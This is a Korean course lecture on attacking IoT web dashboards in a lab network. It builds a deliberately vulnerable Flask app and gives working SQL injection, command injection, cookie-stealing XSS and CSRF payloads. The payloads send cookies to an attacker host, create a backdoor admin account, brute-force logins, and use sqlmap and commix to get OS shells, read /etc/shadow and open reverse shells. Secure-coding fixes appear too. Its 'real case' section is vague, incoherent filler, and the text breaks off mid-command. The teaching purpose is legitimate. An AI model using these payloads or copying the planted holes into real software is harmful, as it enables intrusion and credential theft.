

# Week 05: IoT 웹 인터페이스 공격

## 학습 목표
- IoT 웹 대시보드의 일반적인 취약점을 파악한다
- IoT 관리 인터페이스에 대한 SQL Injection 공격을 실습한다
- XSS(Cross-Site Scripting)를 통한 IoT 디바이스 제어를 학습한다
- 기본 비밀번호 및 인증 우회 기법을 실습한다
- IoT 웹 인터페이스 보안 강화 방안을 수립한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| attacker | 10.20.30.201 | 공격/분석 머신 | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | IoT 대시보드 | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | IoT 웹 인터페이스 취약점 이론 (Part 1) | 강의 |
| 0:40-1:10 | 인증 우회 사례 분석 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | SQLi 실습 (Part 3) | 실습 |
| 2:00-2:40 | XSS 및 CSRF 실습 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 기본 비밀번호 및 보안 강화 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

## Part 1: IoT 웹 인터페이스 취약점 이론 (40분)

### 1.1 IoT 웹 인터페이스 특성

일반 웹 애플리케이션과 달리 IoT 웹 인터페이스는 다음 특성이 있다:

| 특성 | 일반 웹 | IoT 웹 |
|------|---------|--------|
| 프레임워크 | Django, Express 등 | GoAhead, Boa, lighttpd |
| 보안 업데이트 | 빈번 | 드묾/없음 |
| 인증 | OAuth, MFA 지원 | 기본 인증, 세션 쿠키 |
| HTTPS | 필수 | 미적용 다수 |
| 입력 검증 | 프레임워크 지원 | 수동 구현 (취약) |
| API | RESTful, GraphQL | CGI 기반 |

### 1.2 IoT 웹 공격 표면

```
┌──────────────────────────────────────┐
│         IoT Web Dashboard            │
├──────────┬───────────┬───────────────┤
│ Login    │ Device    │ Firmware      │
│ Page     │ Control   │ Update        │
│          │ Panel     │ Page          │
├──────────┼───────────┼───────────────┤
│ CGI      │ REST API  │ File Upload   │
│ Scripts  │ Endpoints │ Handler       │
├──────────┴───────────┴───────────────┤
│        SQLite / Config Files         │
└──────────────────────────────────────┘
     ↑           ↑            ↑
   SQLi       Command      Path
              Injection   Traversal
```

### 1.3 주요 취약점 분류

1. **기본 비밀번호 (I1):** admin/admin, root/root
2. **SQL Injection:** 로그인 폼, 검색, API 파라미터
3. **XSS:** 디바이스 이름, 알림 메시지, 로그 뷰어
4. **Command Injection:** 진단 도구 (ping, traceroute, nslookup)
5. **경로 탐색:** 로그 파일 다운로드, 설정 백업
6. **인증 우회:** 숨겨진 URL, API 인증 미적용
7. **CSRF:** 디바이스 설정 변경, 펌웨어 업데이트

---

## Part 2: 인증 우회 사례 분석 (30분)

### 2.1 IoT 인증 우회 패턴

**패턴 1: 하드코딩된 백도어 계정**
```
# 실제 사례: 여러 IP 카메라 제조사
admin:admin
root:vizxv       # Dahua
888888:888888    # Dahua
666666:666666    # Dahua
admin:7ujMko0admin  # D-Link
```

**패턴 2: URL 기반 인증 우회**
```
# 인증 필요
GET /config.html → 302 Redirect to /login.html

# 인증 우회 (CGI 직접 접근)
GET /cgi-bin/config.cgi → 200 OK (설정 데이터)
GET /goform/getConfig → 200 OK
```

**패턴 3: 쿠키 조작**
```
# 취약한 인증 쿠키
Cookie: auth=0          → Cookie: auth=1
Cookie: user=guest      → Cookie: user=admin
Cookie: level=0         → Cookie: level=15
```

### 2.2 IoT 대시보드 구축 (실습용)

```bash
# Flask 기반 취약한 IoT 대시보드
cat << 'PYEOF' > /tmp/iot_dashboard.py
from flask import Flask, request, render_template_string, redirect, session, jsonify
import sqlite3
import os
import subprocess

app = Flask(__name__)
app.secret_key = 'iot-secret-key-2024'

DB_PATH = '/tmp/iot_dashboard.db'

def init_db():
    conn = sqlite3.connect(DB_PATH)
    c = conn.cursor()
    c.execute('''CREATE TABLE IF NOT EXISTS users
                 (id INTEGER PRIMARY KEY, username TEXT, password TEXT, role TEXT)''')
    c.execute('''CREATE TABLE IF NOT EXISTS devices
                 (id INTEGER PRIMARY KEY, name TEXT, ip TEXT, type TEXT, status TEXT)''')
    c.execute('''CREATE TABLE IF NOT EXISTS logs
                 (id INTEGER PRIMARY KEY, timestamp TEXT, device TEXT, message TEXT)''')
    
    c.execute("SELECT COUNT(*) FROM users")
    if c.fetchone()[0] == 0:
        c.execute("INSERT INTO users VALUES (1,'admin','admin123','admin')")
        c.execute("INSERT INTO users VALUES (2,'user','user123','user')")
        c.execute("INSERT INTO users VALUES (3,'operator','oper123','operator')")
        
        c.execute("INSERT INTO devices VALUES (1,'Temp Sensor 01','192.168.1.101','sensor','online')")
        c.execute("INSERT INTO devices VALUES (2,'Camera 01','192.168.1.102','camera','online')")
        c.execute("INSERT INTO devices VALUES (3,'Smart Lock','192.168.1.103','actuator','offline')")
        c.execute("INSERT INTO devices VALUES (4,'HVAC Controller','192.168.1.104','controller','online')")
    
    conn.commit()
    conn.close()

LOGIN_PAGE = '''
<html><head><title>IoT Dashboard Login</title></head>
<body style="font-family:Arial; text-align:center; margin-top:100px;">
<h2>IoT Gateway Dashboard</h2>
<form method="POST" action="/login">
<input name="username" placeholder="Username"><br><br>
<input name="password" type="password" placeholder="Password"><br><br>
<button type="submit">Login</button>
</form>
<p style="color:red">{{ error }}</p>
</body></html>
'''

DASHBOARD_PAGE = '''
<html><head><title>IoT Dashboard</title></head>
<body style="font-family:Arial; margin:20px;">
<h2>IoT Gateway Dashboard</h2>
<p>Welcome, {{ session.username }} ({{ session.role }})</p>
<h3>Devices</h3>
<table border="1" cellpadding="5">
<tr><th>Name</th><th>IP</th><th>Type</th><th>Status</th></tr>

<tr><td>{{ d[1] }}</td><td>{{ d[2] }}</td><td>{{ d[3] }}</td><td>{{ d[4] }}</td></tr>

</table>
<h3>Network Diagnostic</h3>
<form method="POST" action="/diagnostic">
<input name="target" placeholder="IP to ping" value="127.0.0.1">
<button type="submit">Ping</button>
</form>
<pre>{{ ping_result }}</pre>
<h3>Search Devices</h3>
<form method="GET" action="/search">
<input name="q" placeholder="Search device name">
<button type="submit">Search</button>
</form>
<br><a href="/logs">View Logs</a> | <a href="/api/devices">API</a> | <a href="/logout">Logout</a>
</body></html>
'''

@app.route('/')
def index():
    if 'username' not in session:
        return redirect('/login')
    return redirect('/dashboard')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username', '')
        password = request.form.get('password', '')
        # 취약: SQL Injection
        conn = sqlite3.connect(DB_PATH)
        query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
        try:
            user = conn.execute(query).fetchone()
            if user:
                session['username'] = user[1]
                session['role'] = user[3]
                return redirect('/dashboard')
        except:
            pass
        conn.close()
        return render_template_string(LOGIN_PAGE, error="Invalid credentials")
    return render_template_string(LOGIN_PAGE, error=None)

@app.route('/dashboard')
def dashboard():
    if 'username' not in session:
        return redirect('/login')
    conn = sqlite3.connect(DB_PATH)
    devices = conn.execute("SELECT * FROM devices").fetchall()
    conn.close()
    return render_template_string(DASHBOARD_PAGE, session=session, devices=devices, ping_result=None)

@app.route('/diagnostic', methods=['POST'])
def diagnostic():
    if 'username' not in session:
        return redirect('/login')
    target = request.form.get('target', '')
    # 취약: Command Injection
    result = subprocess.getoutput(f"ping -c 2 {target}")
    conn = sqlite3.connect(DB_PATH)
    devices = conn.execute("SELECT * FROM devices").fetchall()
    conn.close()
    return render_template_string(DASHBOARD_PAGE, session=session, devices=devices, ping_result=result)

@app.route('/search')
def search():
    q = request.args.get('q', '')
    conn = sqlite3.connect(DB_PATH)
    # 취약: SQL Injection
    query = f"SELECT * FROM devices WHERE name LIKE '%{q}%'"
    try:
        results = conn.execute(query).fetchall()
    except:
        results = []
    conn.close()
    # 취약: Reflected XSS
    return f"<html><body><h2>Search: {q}</h2><pre>{results}</pre><a href='/dashboard'>Back</a></body></html>"

@app.route('/api/devices')
def api_devices():
    # 취약: 인증 없는 API
    conn = sqlite3.connect(DB_PATH)
    devices = conn.execute("SELECT * FROM devices").fetchall()
    conn.close()
    return jsonify([{"id":d[0],"name":d[1],"ip":d[2],"type":d[3],"status":d[4]} for d in devices])

@app.route('/logout')
def logout():
    session.clear()
    return redirect('/login')

if __name__ == '__main__':
    init_db()
    app.run(host='0.0.0.0', port=8088, debug=True)
PYEOF

pip3 install flask
python3 /tmp/iot_dashboard.py &
```

---

## Part 3: SQL Injection 실습 (40분)

### 3.1 로그인 폼 SQLi

```bash
# 인증 우회 (SQLi)
curl -X POST http://10.20.30.80:8088/login \
  -d "username=admin' OR '1'='1' --&password=anything" -v

# UNION 기반 SQLi (검색 기능)
curl "http://10.20.30.80:8088/search?q=' UNION SELECT 1,username,password,role,'x' FROM users--"

# 테이블 열거
curl "http://10.20.30.80:8088/search?q=' UNION SELECT 1,name,sql,'x','y' FROM sqlite_master--"

# sqlmap 자동화
sqlmap -u "http://10.20.30.80:8088/search?q=test" \
  --dbms=sqlite --dump --batch
```

### 3.2 Command Injection

```bash
# 진단 도구를 통한 명령어 주입
curl -X POST http://10.20.30.80:8088/diagnostic \
  -d "target=127.0.0.1; cat /etc/passwd" \
  --cookie "session=<session_cookie>"

# 리버스 쉘 (교육 환경에서만)
curl -X POST http://10.20.30.80:8088/diagnostic \
  -d "target=127.0.0.1; id; whoami; uname -a" \
  --cookie "session=<session_cookie>"

# 파이프 이용
curl -X POST http://10.20.30.80:8088/diagnostic \
  -d "target=127.0.0.1 | ls -la /etc/" \
  --cookie "session=<session_cookie>"
```

### 3.3 미인증 API 접근

```bash
# 인증 없이 API 접근 가능 (취약)
curl -s http://10.20.30.80:8088/api/devices | python3 -m json.tool

# API 열거
for endpoint in devices users config backup logs; do
  echo "=== /api/$endpoint ==="
  curl -s "http://10.20.30.80:8088/api/$endpoint" 2>/dev/null | head -3
done
```

---

## Part 4: XSS 및 CSRF 실습 (40분)

### 4.1 Reflected XSS

```bash
# 검색 기능을 통한 XSS
# 브라우저에서 접근:
# http://10.20.30.80:8088/search?q=<script>alert('XSS')</script>

# 쿠키 탈취 페이로드
# http://10.20.30.80:8088/search?q=<script>new Image().src='http://10.20.30.201:8888/?c='+document.cookie</script>

# IoT 특화 XSS: 디바이스 제어
# <script>fetch('/api/device/3/control',{method:'POST',body:'{"action":"unlock"}'})</script>

# curl로 XSS 테스트
curl -s "http://10.20.30.80:8088/search?q=%3Cscript%3Ealert(1)%3C/script%3E" | grep -o "<script.*</script>"
```

### 4.2 Stored XSS (디바이스 이름)

```bash
# 디바이스 이름에 XSS 페이로드 저장
# IoT 대시보드에서 디바이스 이름을 다음으로 변경:
# 

# 로그 메시지를 통한 Stored XSS
# MQTT 메시지에 XSS 삽입 → 대시보드 로그에 표시
mosquitto_pub -h 10.20.30.80 -t "device/alert" \
  -m '<script>document.location="http://10.20.30.201/?c="+document.cookie</script>'
```

### 4.3 CSRF 공격

```bash
# IoT 설정 변경 CSRF
cat << 'EOF' > /tmp/csrf_iot.html
<html>
<body>
<h1>Free IoT Security Scanner!</h1>
<!-- 숨겨진 CSRF: DNS 서버 변경 -->


<!-- 숨겨진 CSRF: 새 관리자 추가 -->
<iframe style="display:none" name="csrf_frame"></iframe>
<form id="csrf_form" action="http://10.20.30.80:8088/api/users" method="POST" target="csrf_frame">
  <input type="hidden" name="username" value="backdoor">
  <input type="hidden" name="password" value="hack123">
  <input type="hidden" name="role" value="admin">
</form>
<script>document.getElementById('csrf_form').submit();</script>
</body>
</html>
EOF
```

---

## Part 5: 기본 비밀번호 및 보안 강화 (30분)

### 5.1 기본 비밀번호 스캔

```bash
# IoT 기본 비밀번호 브루트포스
cat << 'PYEOF' > /tmp/iot_brute.py
import requests

target = "http://10.20.30.80:8088/login"

credentials = [
    ("admin", "admin"), ("admin", "admin123"), ("admin", "password"),
    ("admin", "1234"), ("root", "root"), ("root", "toor"),
    ("user", "user"), ("admin", ""), ("root", ""),
    ("operator", "operator"), ("admin", "admin1234"),
    ("support", "support"), ("guest", "guest"),
]

for user, pwd in credentials:
    r = requests.post(target, data={"username": user, "password": pwd}, allow_redirects=False)
    if r.status_code == 302 and '/dashboard' in r.headers.get('Location', ''):
        print(f"[+] SUCCESS: {user}:{pwd}")
    else:
        print(f"[-] Failed: {user}:{pwd}")
PYEOF

python3 /tmp/iot_brute.py
```

### 5.2 보안 강화 방안

| 취약점 | 대책 | 구현 |
|--------|------|------|
| 기본 비밀번호 | 초기 설정 시 변경 강제 | 첫 로그인 시 비밀번호 변경 |
| SQLi | Parameterized Query | `cursor.execute("SELECT * FROM users WHERE username=?", (user,))` |
| XSS | 출력 인코딩 | Jinja2 `{{ var\|e }}` |
| Command Injection | 화이트리스트 검증 | IP 형식만 허용 |
| CSRF | CSRF 토큰 | Flask-WTF 사용 |
| 미인증 API | 인증 미들웨어 | `@login_required` 데코레이터 |
| HTTP | HTTPS 적용 | TLS 인증서 설정 |

### 5.3 안전한 코드 예시

```python
# 안전한 로그인 (Parameterized Query)
@app.route('/login', methods=['POST'])
def secure_login():
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    
    conn = sqlite3.connect(DB_PATH)
    user = conn.execute(
        "SELECT * FROM users WHERE username=? AND password=?",
        (username, password)
    ).fetchone()
    
    if user:
        session['username'] = user[1]
        return redirect('/dashboard')
    return render_template('login.html', error="Invalid credentials")

# 안전한 진단 (입력 검증)
@app.route('/diagnostic', methods=['POST'])
def secure_diagnostic():
    import re
    target = request.form.get('target', '')
    
    # IP 주소 형식만 허용
    if not re.match(r'^(\d{1,3}\.){3}\d{1,3}$', target):
        return "Invalid IP format", 400
    
    result = subprocess.run(
        ['ping', '-c', '2', target],
        capture_output=True, text=True, timeout=10
    )
    return f"<pre>{result.stdout}</pre>"
```

---

## Part 6: 과제 안내 (20분)

### 과제

- IoT 대시보드에서 SQLi를 통해 모든 사용자 계정 정보를 추출하시오
- Command Injection으로 서버의 시스템 정보를 수집하시오
- 발견된 취약점에 대한 보안 패치를 Python 코드로 작성하시오

---

## 참고 자료

- OWASP IoT Top 10: https://owasp.org/www-project-internet-of-things/
- OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/
- SQLMap: https://sqlmap.org/
- Burp Suite: https://portswigger.net/burp

---

## 실제 사례 (WitFoo Precinct 6 — MQTT 공격)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *MQTT 공격* 학습 항목 매칭.

### MQTT 공격 의 dataset 흔적 — "broker abuse"

dataset 의 정상 운영에서 *broker abuse* 신호의 baseline 을 알아두면, *MQTT 공격* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — default password.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | broker abuse |
| 정량 baseline | default password |
| 학습 매핑 | Mosquitto exploit |

**자세한 해석**: Mosquitto exploit. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | broker abuse 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **MQTT 공격 = broker abuse 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — default password.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: MQTT pentesting.

---

## 부록: 학습 OSS 도구 매트릭스 (Course17 IoT Security — Week 05 IoT 웹 인터페이스·SQLi·XSS·CSRF·Command Injection)

> 이 부록은 본문 Part 2-5 의 lab (Flask 취약 IoT 대시보드 / SQLi / XSS /
> CSRF / Command Injection / 기본 비번 brute) 의 모든 명령을 *실제 OSS 웹
> 펜테스트 도구* 시퀀스로 매핑한다. 본문 curl + Python 단순 → *Burp Suite
> Community / OWASP ZAP / sqlmap / nuclei* 운영 도구 + *WAF 방어* (ModSecurity
> / Coraza / Naxsi) + *학습 lab* (DVWA / WebGoat / Juice Shop). IoT 특화
> 웹 펜테스트 (GoAhead / Boa / lighttpd / mini_httpd 약점) + IoT 대시보드
> *기본 cred 사전* + *공격 자동화* 포함. course3 web-vuln 부록과 *IoT 특화*
> 차별화.

### lab step → 도구 매핑 표

| step | 본문 위치 | 학습 항목 | 본문 명령 | 핵심 OSS 도구 (실 명령) | 도구 옵션 |
|------|----------|----------|----------|-------------------------|-----------|
| s1 | 2.2 | 취약 dashboard 구축 | Flask 코드 | DVWA / Juice Shop / WebGoat / VulnerableIoT | docker run |
| s2 | 3.1 | 로그인 SQLi | curl POST | sqlmap / Burp / ZAP / jSQL-Injection | `sqlmap --forms --batch` |
| s3 | 3.1 | UNION SQLi | curl GET | sqlmap / Burp Intruder / wfuzz | `--union-cols` |
| s4 | 3.1 | sqlmap 자동 | sqlmap | sqlmap / bbqsql / Burp pro | `-u --dbms=sqlite` |
| s5 | 3.2 | Command injection | curl POST | commix / wfuzz / Burp Repeater | `commix --url=...` |
| s6 | 3.3 | 미인증 API | curl /api/ | nuclei / kiterunner / arjun / param-miner | API recon |
| s7 | 4.1 | Reflected XSS | URL encoded | XSStrike / dalfox / xsser / dom-xss-finder | `xsstrike -u --crawl` |
| s8 | 4.2 | Stored XSS | 디바이스 이름 | XSStrike / Burp Active Scan | persistent |
| s9 | 4.3 | CSRF | HTML 폼 | CSRFTester (Burp) / OWASP ZAP CSRF | token check |
| s10 | 5.1 | cred brute | Python loop | hydra http-post / Burp Intruder | week 10 부록 보강 |
| s11 | 5.2 | 안전 코드 | parameterized | bandit / semgrep / CodeQL | static analyzer |
| s12 | 5.3 | WAF 방어 | (개념) | ModSecurity / Coraza / Naxsi / Open AppSec | reverse proxy |
| s13 | 1.2 | API 자동 enum | (개념) | kiterunner / arjun / param-miner / Postman | RESTful |
| s14 | (추가) | 보안 헤더 | (개념) | testssl.sh / securityheaders / observatory | header audit |
| s15 | (추가) | 학습 lab | (개념) | DVWA / Juice Shop / WebGoat / Mutillidae / Vampi | docker |

### IoT 웹 펜테스트 도구 카테고리 매트릭스

| 카테고리 | 사례 | 대표 도구 (OSS) | 비고 |
|---------|------|----------------|------|
| **proxy / interceptor** | HTTP/S 변조 | Burp Suite Community / OWASP ZAP / mitmproxy | 표준 |
| **Web 정찰** | tech / endpoint | httpx / whatweb / wappalyzer / nuclei | week 12 보강 |
| **Directory enum** | 숨은 endpoint | gobuster / ffuf / dirsearch / feroxbuster | 사전 |
| **API 정찰** | RESTful enum | kiterunner / arjun / param-miner | swagger |
| **SQLi 자동** | union / boolean / time | sqlmap / bbqsql / jSQL-Injection | 표준 |
| **SQLi (NoSQL)** | MongoDB / CouchDB | NoSQLMap / nosqli | NoSQL |
| **XSS 자동** | reflected / stored / DOM | XSStrike / dalfox / xsser / dom-xss-finder | crawl + payload |
| **CSRF** | token 검증 | Burp CSRF Scanner / OWASP ZAP CSRF | manual + auto |
| **CMD injection** | 진단 도구 | commix / wfuzz / Burp / Intruder | --batch |
| **File upload** | webshell | WebShell Detector / wfuzz | upload bypass |
| **Path traversal** | LFI/RFI | wfuzz / dotdotpwn / fimap | sequential |
| **SSRF** | internal scan | SSRFmap / Burp Collaborator / interactsh | callback |
| **Auth brute** | credential | hydra / patator / Burp Intruder | 사전 |
| **WAF bypass** | 우회 | wafw00f (탐지) + 우회 사전 | encoding |
| **Static analysis** | 취약 코드 | bandit / semgrep / CodeQL / Brakeman | python/js |
| **WAF (방어)** | reverse proxy | ModSecurity (Apache/Nginx) / Coraza (Go) / Naxsi (Nginx) / Open AppSec | OWASP CRS |
| **헤더 audit** | HSTS/CSP/etc | testssl.sh / Mozilla Observatory / securityheaders.com | 점수 |
| **DAST** | 실 동작 audit | OWASP ZAP / Arachni / w3af / Skipfish | 자동 |
| **취약 lab** | 학습 | DVWA / Juice Shop / WebGoat / Mutillidae / Vampi (API) | docker |
| **IoT 특화 lab** | IoT 웹 | OWASP IoTGoat / DVIoT / iotpwn / IoT-Implant | 실 IoT |

### 학생 환경 준비

```bash
# attacker VM — 웹 펜테스트 도구 통합
sudo apt-get update
sudo apt-get install -y \
   curl wget \
   sqlmap \
   nikto whatweb dirb gobuster ffuf wfuzz dirsearch \
   wapiti \
   nuclei \
   hydra medusa patator \
   commix \
   wafw00f \
   testssl.sh \
   python3-pip python3-venv

# Burp Suite Community
curl -sLo /tmp/burp.sh \
   "https://portswigger.net/burp/releases/download?product=community&version=2024.6.5&type=Linux"
sudo bash /tmp/burp.sh -q -dir /opt/burp

# OWASP ZAP
sudo snap install zaproxy --classic

# XSStrike
git clone https://github.com/s0md3v/XSStrike /tmp/xsstrike
cd /tmp/xsstrike && pip3 install --user -r requirements.txt

# dalfox (XSS — Go)
go install -v github.com/hahwul/dalfox/v2@latest

# kiterunner (API discovery)
go install -v github.com/assetnote/kiterunner/cmd/kr@latest

# arjun (HTTP parameter miner)
pip3 install --user arjun

# bandit (Python static)
pip3 install --user bandit

# semgrep (universal static)
pip3 install --user semgrep

# DVWA / Juice Shop / WebGoat (학습 lab)
docker pull vulnerables/web-dvwa:latest
docker pull bkimminich/juice-shop:latest
docker pull webgoat/webgoat-8.0:latest
docker pull bkimminich/vampi:latest

docker run -d --name dvwa -p 8090:80 vulnerables/web-dvwa
docker run -d --name juice -p 8091:3000 bkimminich/juice-shop
docker run -d --name webgoat -p 8092:8080 webgoat/webgoat-8.0
docker run -d --name vampi -p 8093:5000 bkimminich/vampi

# IoTGoat (IoT 특화 학습)
git clone https://github.com/OWASP/IoTGoat /tmp/iotgoat

# ModSecurity + OWASP CRS (WAF)
docker run -d --name modsec \
   -p 8443:443 -p 8080:80 \
   -e PARANOIA=2 \
   -e BACKEND="http://10.20.30.80:8088" \
   owasp/modsecurity-crs:nginx

# 검증
sqlmap --version 2>&1 | head -1
zaproxy --version 2>&1 | head -1
nuclei -version 2>&1 | head -1
xsstrike --help 2>&1 | head -3
dalfox version
commix --version 2>&1 | head -1
docker ps | grep -E "dvwa|juice|webgoat|vampi|modsec"
```

### 핵심 도구별 상세 사용법

#### 도구 1: sqlmap — 본격 SQLi 자동화 (s2-s4)

본문 curl 단일 SQLi → sqlmap 의 *모든 기법* (boolean / time / error / union /
stacked / inline) 자동 + DB dump.

```bash
# 1. 기본 — POST form 자동 detect
sqlmap -u "http://10.20.30.80:8088/login" \
   --data="username=admin&password=test" \
   --batch --dbms=sqlite

# 출력:
# [INFO] Parameter 'username' is vulnerable
# [INFO] Type: boolean-based blind
# [INFO] Title: SQLite boolean-based blind ...

# 2. 모든 DB / table / column dump
sqlmap -u "http://10.20.30.80:8088/login" \
   --data="username=admin&password=test" \
   --batch --dbms=sqlite \
   --dbs --tables --columns --dump

# 결과 — /home/$USER/.local/share/sqlmap/output/10.20.30.80/
ls ~/.local/share/sqlmap/output/10.20.30.80/dump/

# 3. GET 파라미터 (search 기능)
sqlmap -u "http://10.20.30.80:8088/search?q=test" \
   --batch --dbms=sqlite --dump

# 4. 인증 후 (cookie + 다음 page)
sqlmap -u "http://10.20.30.80:8088/api/devices?id=1" \
   --cookie="session=abcdefg" \
   --batch --level=5 --risk=3

# 5. crawl (자동 발견 + scan)
sqlmap -u "http://10.20.30.80:8088/" \
   --crawl=3 --forms --batch \
   --output-dir=/tmp/sqlmap-out

# 6. WAF 우회 (tamper script)
sqlmap -u "..." --tamper=between,space2comment,charencode \
   --random-agent --delay=2 --time-sec=10

# 7. shell 실행 (sqli → OS shell)
sqlmap -u "..." --os-shell --batch
# os-shell> id
# os-shell> cat /etc/passwd

# 8. file read / write
sqlmap -u "..." --file-read=/etc/shadow --batch
sqlmap -u "..." --file-write=/tmp/shell.php --file-dest=/var/www/html/sh.php
```

#### 도구 2: Burp Suite Community — 통합 web pentest GUI

본문 curl 모든 단계 → Burp 에서 시각적 + Repeater + Intruder 통합.

```bash
# 1. Burp 시작
sudo /opt/burp/BurpSuiteCommunity &

# 2. 브라우저 proxy 설정 (Firefox)
# Settings → Network → Manual proxy
# HTTP Proxy: 127.0.0.1  Port: 8080
# Burp CA 다운로드: http://burp → CA Certificate

# 3. workflow:
#   a. Target → Site map → 자동 spider (브라우저로 클릭)
#   b. Proxy → HTTP history → 모든 요청/응답 시각화
#   c. Repeater → 요청 수정 + 재전송 (수동 SQLi/XSS)
#   d. Intruder → payload 사전 자동 (SQLi / XSS / brute)
#   e. Decoder → URL/base64/HTML encoding
#   f. Comparer → 두 응답 diff

# 4. Intruder cred brute (Sniper)
# - Position: payload 위치 표시 (§ 기호)
# - Payload: /tmp/iot-passwords.txt
# - Options: thread 5, status code 302 = success
# - Start attack → 결과 정렬

# 5. Active Scan (Pro 버전 한정 — Community 는 제한적)
# - Target → 우클릭 → Scan → Audit
# - 자동 SQLi / XSS / CSRF / Command Injection 검출

# 6. Burp 의 IoT 특화 — request 변조
# /api/devices?id=1 → /api/devices?id=1' OR '1'='1
# Headers → Authorization 변조
# Cookie → role=user → role=admin
```

#### 도구 3: OWASP ZAP — Burp 의 *완전 무료* 대안

ZAP 는 Active Scan + 자동 spider 모두 무료. CI/CD 통합 (zap-baseline.py)
까지.

```bash
# 1. ZAP daemon 모드 (CLI 자동화)
zap.sh -daemon -port 8080 -config api.disablekey=true &

# 2. spider + active scan (자동)
docker run --rm -v $(pwd):/zap/wrk/:rw \
   -t owasp/zap2docker-stable zap-baseline.py \
   -t http://10.20.30.80:8088/ \
   -r /zap/wrk/zap-report.html

firefox zap-report.html

# 3. ZAP API — 자동화
zap-cli quick-scan --self-contained \
   -o '-config api.disablekey=true' \
   --start-options '-config api.disablekey=true' \
   http://10.20.30.80:8088/

# 4. context 기반 스캔 (인증 후)
zap-cli context import /tmp/iot-context.xml
zap-cli active-scan -c "IoT Dashboard" --recursive http://...

# 5. CI/CD 통합 (GitHub Actions)
cat << 'YAML' > .github/workflows/zap-baseline.yml
name: OWASP ZAP Baseline
on: [push]
jobs:
  zap:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: zaproxy/action-baseline@v0.10.0
        with:
          target: 'http://staging.lab.local'
          rules_file_name: '.zap/rules.tsv'
          fail_action: true
YAML
```

#### 도구 4: XSStrike + dalfox — XSS 자동 (s7-s8)

본문 reflected XSS → XSStrike 의 *crawl + WAF detect + payload 변형* 자동.

```bash
# 1. XSStrike — 단일 URL
cd /tmp/xsstrike && python3 xsstrike.py -u "http://10.20.30.80:8088/search?q=test"

# 출력:
# [+] WAF detection: ModSecurity (CRS)
# [+] Reflection found in parameter: q
# [!] XSS payload: <svg/onload=alert(1)>
# [!] WAF evasion success: <ScRiPt>...

# 2. crawl 모드 (전체 site)
python3 xsstrike.py -u "http://10.20.30.80:8088/" --crawl --level=3

# 3. POST form
python3 xsstrike.py -u "http://10.20.30.80:8088/diagnostic" \
   --data "target=test"

# 4. dalfox (Go — 더 빠름)
dalfox url "http://10.20.30.80:8088/search?q=test"

# Pipe + crawl
echo "http://10.20.30.80:8088/" | hakrawler -depth 2 \
   | dalfox pipe --custom-payload /tmp/xss-payloads.txt

# 5. DOM XSS
dalfox url "http://10.20.30.80:8088/" --mining-dom --mining-dict

# 6. blind XSS (callback — interactsh)
dalfox url "..." -b https://your.interact.sh

# 7. payload 사전 (PortSwigger / OWASP)
curl -sLo /tmp/xss-payloads.txt \
   https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt
```

#### 도구 5: commix — Command Injection 전용 (s5)

본문 `target=127.0.0.1; cat /etc/passwd` → commix 의 *모든 변형* + reverse
shell + meterpreter 자동.

```bash
# 1. 기본 (POST form)
commix --url="http://10.20.30.80:8088/diagnostic" \
   --data="target=test" \
   --cookie="session=abcdef" \
   --batch

# 출력:
# [+] Heuristics detected an injection point
# [+] Payload: ; cat /etc/passwd
# [+] Pseudo-Terminal: yes

# 2. reverse shell (즉시)
commix --url="..." --data="target=test" \
   --reverse-tcp --lhost=10.20.30.201 --lport=4444 \
   --batch

# 다른 터미널: nc -lnvp 4444

# 3. payload 변형 (다양 platform)
commix --url="..." --data="target=test" \
   --technique="b,e,t,f,a"
   # b=blind, e=eval, t=time-based, f=file, a=all

# 4. file upload (악성 webshell)
commix --url="..." --file-upload="shell.php" \
   --remote-path=/var/www/html

# 5. WAF / 인증 우회
commix --url="..." --random-agent --delay=2 \
   --tamper=base64encode,space2plus
```

#### 도구 6: nuclei + kiterunner — IoT 웹 자동 audit (s6)

본문 `for endpoint in devices users config ...` → nuclei (CVE) + kiterunner
(API endpoint sweep) 자동.

```bash
# 1. nuclei — IoT 특화 template
nuclei -u "http://10.20.30.80:8088" \
   -tags iot,dashboard,exposure,api \
   -severity high,critical \
